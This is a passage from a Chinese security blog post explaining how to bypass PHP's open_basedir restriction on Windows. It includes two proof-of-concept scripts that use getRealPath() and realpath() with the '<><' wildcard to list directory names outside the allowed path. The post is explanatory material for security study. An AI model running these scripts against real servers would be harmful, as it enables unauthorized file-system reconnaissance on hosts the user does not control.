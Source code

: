 ![在这里插入图片描述](https://img-blog.csdnimg.cn/b7d6d3fef3b64b46b773635c5620ee97.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
但是如果我们完全不知道路径的情况下可能想到暴力猜解，时间花费极高。在Windows系统下可以利用<>来列出所需目录下的文件，有P神的POC如下:
环境：windows
```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```
爆出目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/3b84f02d68284d4f9990a084c82da4c5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

注意：由于<><是Windows特有的通配符。所以该POC只能在Windows环境下使用。Linux下只能暴力破解。
###  利用realpath()
realpath()函数和SplFileInfo::getRealPath()作用类似。可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。函数定义如下:
```php
realpath ( string $path ) : string
```

当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。 

同样，对于这个函数，我们在Windows下仍然能够使用通配符<>来列目录，有P神的脚本如下:
环境测试：windows系统
```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```
就直接爆出了目录文件名
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae66f040725843908ee0f62111fab004.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
